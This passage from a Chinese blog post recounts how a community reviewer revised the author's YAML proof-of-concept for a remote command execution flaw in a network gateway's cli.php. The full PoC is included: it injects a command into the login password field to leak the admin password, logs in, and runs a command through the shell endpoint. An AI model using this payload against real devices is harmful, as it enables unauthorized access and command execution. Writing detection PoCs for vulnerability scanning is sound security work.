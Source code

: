   
  
#### 修改POC  
  
  
  
  
令我没想到的是，我提交上去后，smile-jpg师傅对我的poc进行了修改，然后通过了审核。  
  
```
name: poc-yaml-******-eg-cli-rce
set:
  r1: randomInt(8000, 10000)
  r2: randomInt(8000, 10000)
rules:
  - method: POST
    path: /login.php
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: |
      username=admin&password=admin?show+webmaster+user
    expression: |
      response.status == 200 && response.content_type.contains("text/json")
    search: |
      {"data":".*admin\s?(?P<password>[^\\"]*)
  - method: POST
    path: /login.php
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: |
      username=admin&password={{password}}
    expression: |
      response.status == 200 && response.content_type.contains("text/json") && response.headers["Set-Cookie"].contains("user=admin") && response.body.bcontains(b"{\"data\":\"0\",\"status\":1}")
  - method: POST
    path: "/cli.php?a=shell"
    follow_redirects: false
    body: |
      notdelay=true&command=expr {{r1}} * {{r2}}
    expression: |
      response.status == 200 && response.body.bcontains(bytes(string(r1 * r2)))
detail:
  author: Jarcis
  links:
    - https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7EG%E6%98%93%E7%BD%91%E5%85%B3%20cli.php%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
```  
  
  
他添加了在登陆口获取账号密码并登陆的操作，并添加了两个随机数，执行命令时，如果返回了随机数相乘执行的结果，便证明漏洞存在。  
  
  
看到了这样的修改后，我在学到不少新东西，更了解了应该怎样写好一个POC的同时，也对社区的师傅非常的感动，没有驳回这样一个错漏百出的poc的同时还修改并通过了审核，这对当时的我来说是一剂非常强力的强心剂，也为我后续编写更多的POC提供了很大的帮助。  
  